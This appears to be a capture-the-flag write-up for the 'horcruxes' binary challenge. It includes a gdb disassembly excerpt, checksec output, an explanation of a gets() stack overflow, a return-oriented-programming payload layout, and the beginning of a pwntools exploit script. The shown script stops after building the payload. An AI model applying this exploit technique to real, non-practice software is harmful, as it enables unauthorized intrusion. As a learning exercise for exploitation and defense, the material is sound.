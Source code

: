 ```nasm
   0x080a013f <+310>:   push   eax
   0x080a0140 <+311>:   call   0x809fca0 <puts@plt>
   0x080a0145 <+316>:   add    esp,0x10
   0x080a0148 <+319>:   sub    esp,0xc
   0x080a014b <+322>:   push   DWORD PTR [ebp-0xc]
   0x080a014e <+325>:   call   0x809fd30 <close@plt>
   0x080a0153 <+330>:   add    esp,0x10
   0x080a0156 <+333>:   sub    esp,0xc
   0x080a0159 <+336>:   push   0x0
   0x080a015b <+338>:   call   0x809fcb0 <exit@plt>
   0x080a0160 <+343>:   sub    esp,0xc
   0x080a0163 <+346>:   push   0x80a0544
   0x080a0168 <+351>:   call   0x809fca0 <puts@plt>     ;"you need more exp points"
   0x080a016d <+356>:   add    esp,0x10
   0x080a0170 <+359>:   mov    eax,0x0
   0x080a0175 <+364>:   leave
   0x080a0176 <+365>:   ret
End of assembler dump.
```
This function gets decimal input using ``scanf`` (select menu)

Then it compares with randomly generated variables a ~ g and calls the according function(A ~ G) if they're equal.

Functions A ~ G prints variables a~g.

At last, it gets another input using ``gets`` and compares with sum of a~g. If they're equal, the program reads and outputs flag file.

Because the last input is taken by ``gets``, the program is bulnerable to bof.
But since NXbit is enabled,
```bash
horcruxes@prowl:~$ checksec horcruxes
[*] '/home/horcruxes/horcruxes'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x809f000)
```
we have to use ROP.

And because we are using ``gets`` and the ``ropme`` function address contains \x0a (line-feed), we cannot just jump to file-read-output part of the ``ropme`` function.

payload structure:
1. dummy value (0x78 bytes)
2. return address of main : addresses of A~G (4 bytes each, 28 bytes total)
3. return address of G : main+216 ``call ropme`` (4 bytes)

This way, we could get all the random values (a~g) and return to the main function to input the sum.

exploit code :
```python
from pwn import *

#context(log_level='debug')
b = ELF('/home/horcruxes/horcruxes')
r = remote('0', 9032)

payload = ''
payload +=  'a'*0x74
payload += 'a'*4
for i in range(ord('A'),ord('H')):
	payload += p32(b.symbols[chr(i)])
payload += p32(0x0809fffc)
```